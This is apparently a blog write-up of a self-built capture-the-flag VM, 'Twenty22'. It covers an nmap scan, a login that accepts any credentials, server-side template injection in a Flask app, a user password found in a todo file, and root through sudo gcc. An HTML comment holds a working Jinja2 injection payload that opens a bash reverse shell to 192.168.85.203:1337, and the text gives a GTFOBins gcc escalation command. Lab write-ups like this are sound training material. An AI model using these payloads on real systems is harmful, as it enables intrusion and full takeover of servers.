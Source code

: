 ```yaml
---

title: Writeup for Twenty22

date: 2022-01-20 07:39:05 +0200

categories: [Build vulnerable VMs,Writeup for Twenty22]

tags: vagrant VMs FirstVM wrietup

---
```


### Nmap

```js
PS E:\> nmap -sC -sV 10.10.10.101
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-20 07:03 India Standard Time
Nmap scan report for 10.10.10.101
Host is up (0.0000030s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 9f:5a:7c:82:c0:2e:e1:c9:57:b5:7d:66:04:e9:31:0e (RSA)
|   256 02:90:6e:33:7a:b2:53:83:a6:0f:2f:16:93:94:a1:96 (ECDSA)
|_  256 cf:8b:32:62:3d:22:79:8b:2b:f0:9f:f0:94:87:24:dd (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Twenty22 | Login
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 08:00:27:C3:C3:3D (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.42 seconds
```
- There're two ports opened, 22 has ssh and 80 has an apache webserver
- Let's visit the web page

### Website
![login-page](https://i.imgur.com/sPx1JbN.png)
- Here's a login page, but we don't have any credentials
- Let's try with `admin:admin`

![welcome-admin](https://i.imgur.com/4QPXx0u.png)
- It worked, let's try with other credentials, for example `test:test` 

![test-test](https://i.imgur.com/GaMTlpo.png)
- I think there's no login check, it simply logs us in with any credentials
- And our username is reflecting here `[ Welcome test, It's late the CTF has ended ]`
- Let's enum other pages

### CTF site
- This is a mini CTF site
- Sadly the CTF has ended
- There are two web challenges, which still active
- But it's not hosted inside this machine, Its publicly hosted so we can't make use of that challenges
- There's a scoreboard and users pages
- This page uses a cookie `user:test`
- Our username will be stored there
- Nothing interesting than our reflected input and cookies

![static](https://i.imgur.com/tDGnVnP.png)
- By viewing the source there's a folder name `static`
- So let's try for **SSTI** 

#### SSTI
- I used ![7*7](https://i.imgur.com/b8rE1NY.png) as my username

![ssti](https://i.imgur.com/vDKsJQA.png)

- It works :D
- So this is a flask app has SSTI
- Let's try to get a reverse shell

![rev-payload](https://i.imgur.com/oO8kGam.png)
<!--{{config.__class__.__init__.__globals__['os'].popen('/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.85.203/1337 0>&1"').read()}} -->

![shell as www-data](https://i.imgur.com/2t8obfL.png)
- Cool we got shell :D

### User part
![credentials-pwn](https://i.imgur.com/elLKb0X.png)
- We can't see user.txt but we got credetials for pwn user
- There's a todo.txt in `/home/pwn` and a password is there
- Let's try this to login as `pwn`

![user.txt](https://i.imgur.com/NkC2IZ6.png)
- Nice we got user
- Let's upgrade our shell

### Root part
![sudo -l](https://i.imgur.com/ce66c7y.png)
- By running `sudo -l` we can see that `pwn` user can run `/usr/bin/gcc` with sudo

![gtfobins](https://i.imgur.com/SkM5TJg.png)
- Quickly I searched in gtfobins and it has gcc

![sudo gcc](https://i.imgur.com/PkdeFP1.png)
- Let's run this command 

`sudo gcc -wrapper /bin/sh,-s .`

![rooted](https://i.imgur.com/eFP7fHl.png)
- Cool we rooted :D
- That's all guys, I hope you liked this box <3 
- See my previous post [How to create vulnerable VM](https://jopraveen.me/posts/create-vulnerable-vm/)
